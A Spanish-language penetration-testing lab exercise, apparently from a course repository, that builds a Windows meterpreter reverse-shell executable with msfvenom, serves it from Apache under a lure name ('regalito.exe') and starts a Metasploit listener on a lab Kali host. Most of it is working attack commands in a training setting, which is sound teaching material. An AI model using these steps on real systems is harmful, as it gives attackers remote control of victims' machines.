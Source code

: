 # Usar Metasploit para levantar un servidor VNC en la víctima.
   
Requisitos:
1. Máquina ***Router-Ubu***.
2. Máquina ***Kali Linux***.
3. Máquina ***Windows 11***
4. Máquina ***Metasploitable3-ubu1404*** (Opcional)

Una sola vulnerabilidad es lo que necesita el actor de la amenaza para poder obtener acceso a la víctima. Su objetivo en esta fase consiste en descubrir nuevas vulnerabilidades, servicios mal configurados, etc. que le permitan tomar el control por completo de la víctima.
Nota: También es posible contar con la inestimable colaboración del usuario y conseguir una shell inversa a pesar de que su equipo no contenga vulnerabilidades.


## Ejercicio 1: Abrir una sesión de Meterpreter.

Vamos a crear un payload en formato ejecutable que nos permita ganar acceso a la víctima, para poder descubrir si tiene otras vulnerabilidades.

En la máquina ***Kali*** abrimos una terminal y ejecutamos el siguiente comando para levantar el servidor web.
```
sudo service apache2 start
```

A continuación creamos un payload de ***meterpreter*** en formato ***ejecutable*** para ***Windows de 32 bits***. El ***listener*** estará en la máquina ***Kali*** escuchando en el puerto ***3333***. Aprovechamos y guardamos el payload en el directorio raíz del servidor web
```
sudo msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=192.168.20.9 LPORT=3333 -o /var/www/html/regalito.exe
```

En la terminal abrimos la herramienta ***Metasploit***.
```
sudo msfconsole
```
y configuramos el ***listener***.
```
use multi/handler
```
```
set payload windows/meterpreter/reverse_tcp
```
```
set LHOST 192.168.20.9
```
```
set LPORT 3333
```
```
exploit
```
